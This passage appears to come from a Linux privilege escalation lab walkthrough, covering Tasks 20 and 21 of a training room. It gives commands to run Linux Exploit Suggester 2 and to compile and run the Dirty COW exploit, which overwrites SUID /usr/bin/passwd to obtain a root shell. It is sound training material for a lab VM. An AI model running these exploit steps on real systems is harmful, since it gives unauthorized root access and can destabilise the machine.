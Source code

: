 ```
no_root_squash
```


## Task 20: Kernel Exploits

* __Kernel__ exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

* Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

* The popular Linux kernel exploit "__Dirty COW__" should be listed. Exploit code for __Dirty COW__ can be found at __/home/user/tools/kernel-exploits/dirtycow/c0w.c__. It replaces the SUID file __/usr/bin/passwd__ with one that spawns a shell (a backup of _/usr/bin/passwd_ is made at _/tmp/bak_).

* Compile the code and run it (note that it may take several minutes to complete):

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

* Once the exploit completes, run ```/usr/bin/passwd``` to gain a root shell:

```
/usr/bin/passwd
```

> __Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!__

```bash
mv /tmp/bak /usr/bin/passwd
exit
```

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 21: Privilege Escalation Scripts

* Several tools have been written which help find potential privilege escalations on Linux. Three of these tools have been included on the Debian VM in the following directory: ```/home/user/tools/privesc-scripts```

---

* Answer the questions below
* Experiment with all three tools, running them with different options. Do all of them identify the techniques used in this room?

```No answer needed```